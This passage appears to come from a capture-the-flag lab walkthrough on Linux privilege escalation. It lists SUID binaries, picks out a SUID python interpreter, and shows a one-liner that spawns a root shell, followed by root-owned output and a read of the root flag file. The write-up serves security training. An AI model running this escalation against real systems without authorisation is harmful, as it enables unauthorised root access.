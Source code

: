 ``` bash
/snap/core/9665/usr/bin/sudo
/snap/core/9665/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/9665/usr/lib/openssh/ssh-keysign
/snap/core/9665/usr/lib/snapd/snap-confine
/snap/core/9665/usr/sbin/pppd
/bin/mount
/bin/su
/bin/fusermount
/bin/ping
```

... who turns out to be privileged

__A__:
```
/usr/bin/python
```
__Q__: Find a form to escalate your privileges.

```
No answer needed
```

```bash
bash-4.4$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# whoami
whoami
root
# pwd
pwd
/
# ls -lh
ls -lh
total 2.1G
drwxr-xr-x   2 root root 4.0K Aug  4  2020 bin
drwxr-xr-x   3 root root 4.0K Aug  4  2020 boot
drwxr-xr-x   2 root root 4.0K Aug  4  2020 cdrom
drwxr-xr-x  15 root root 3.7K May 28 15:11 dev
drwxr-xr-x  96 root root 4.0K Aug  4  2020 etc
drwxr-xr-x   4 root root 4.0K Aug  4  2020 home
lrwxrwxrwx   1 root root   34 Aug  4  2020 initrd.img -> boot/initrd.img-4.15.0-112-generic
lrwxrwxrwx   1 root root   34 Aug  4  2020 initrd.img.old -> boot/initrd.img-4.15.0-112-generic
drwxr-xr-x  22 root root 4.0K Aug  4  2020 lib
drwxr-xr-x   2 root root 4.0K Aug  4  2020 lib64
drwx------   2 root root  16K Aug  4  2020 lost+found
drwxr-xr-x   2 root root 4.0K Feb  3  2020 media
drwxr-xr-x   2 root root 4.0K Feb  3  2020 mnt
drwxr-xr-x   2 root root 4.0K Feb  3  2020 opt
dr-xr-xr-x 112 root root    0 May 28 15:11 proc
drwx------   6 root root 4.0K Aug  4  2020 root
drwxr-xr-x  26 root root  860 May 28 15:13 run
drwxr-xr-x   2 root root  12K Aug  4  2020 sbin
drwxr-xr-x   4 root root 4.0K Aug  4  2020 snap
drwxr-xr-x   2 root root 4.0K Feb  3  2020 srv
-rw-------   1 root root 2.0G Aug  4  2020 swap.img
dr-xr-xr-x  13 root root    0 May 28 15:11 sys
drwxrwxrwt   2 root root 4.0K May 28 16:03 tmp
drwxr-xr-x  10 root root 4.0K Feb  3  2020 usr
drwxr-xr-x  14 root root 4.0K Aug  4  2020 var
lrwxrwxrwx   1 root root   31 Aug  4  2020 vmlinuz -> boot/vmlinuz-4.15.0-112-generic
lrwxrwxrwx   1 root root   31 Aug  4  2020 vmlinuz.old -> boot/vmlinuz-4.15.0-112-generic
# cat /root/root.txt                        
cat /root/root.txt
```
